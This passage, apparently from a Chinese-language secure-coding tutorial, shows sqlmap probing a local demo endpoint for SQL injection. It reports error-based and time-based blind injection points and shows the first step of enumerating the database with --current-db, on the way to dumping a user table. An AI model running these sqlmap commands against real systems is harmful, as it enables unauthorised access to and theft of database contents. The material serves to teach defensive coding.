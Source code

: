 ```



```

使用 sqlmap 来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test



```

一段时间后，sqlmap 给出了如下结果：

![img](assets/2f8e8530dd0f76778c45333adfad5259.png)

可以看到，这个接口的 name 参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，仅需简单的三步，就可以直接导出整个用户表的内容了。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db



```

可以得到当前数据库是 common\_mistakes：

```
current database: 'common_mistakes'



```
